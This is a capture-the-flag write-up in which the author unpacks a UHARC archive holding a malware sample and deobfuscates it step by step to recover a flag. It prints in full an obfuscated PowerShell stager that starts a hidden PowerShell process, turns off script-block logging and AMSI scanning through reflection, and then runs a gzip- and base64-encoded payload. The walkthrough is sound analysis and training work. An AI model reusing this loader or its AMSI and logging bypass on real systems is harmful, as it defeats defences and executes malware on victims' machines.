 # Hot off the press

## Oh wow, a malware analyst shared a sample that I read about in the news! But it looks like they put it in some weird kind of archive...? Anyway, the password should be `infected` as usual!

A file is attached to the challenge.

---

Download the file. 

But... This is a weird file.. What kind is this ?

### uha file

A UHA file is an archive, you need [a specific tool](https://sam.gleske.net/uharc/) to decompress the archive. 

Put the UHARCD executable in the same folder as the archive and use this command, the pwd is in the challenge context

`.\uharc.exe e -pw .\hot_off_the_press`



![Alt text](image.png)


A wild powershell script appears.


### Powershell script

As you can see, the code is well obfuscated and honestly a pain in the ass to read

```powershell

C:\Windows\SysWOW64\cmd.exe /c powershell.exe -nop -w hidden -noni -c if([IntPtr]::Size -eq 4){$b=$env:windir+'\sysnative\WindowsPowerShell\v1.0\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new(); $gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u'')); $plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a'')); if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null); If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]

```

The end of the file is pretty interesting, especially this part :

`New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream([System.Convert]::FromBase64String(((`

It means we have to decode from base64 then decompress from gzip.

If I do like said it leads to errors. I noticed another thing in the code:

```powershell

''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E''

```

1. The strings are concatenated ('+' between the strings) > it is a obfuscation technique
2. There are 2 variables inside the strings (`{0}` and `{1}`, at the end of the line we can see that `{0}` is "L" and `{1}` is "E")

So basically what we need to do there is:

1. Delete all the `''+''` concatenators
2. Replace `{0}` by ``L`` and `{1}` by ``E``
3. Base64 Decode all the String 
4. Gzip decompression

The output should be more code but this time we can see the flag url-encoded. One last step and it is done!
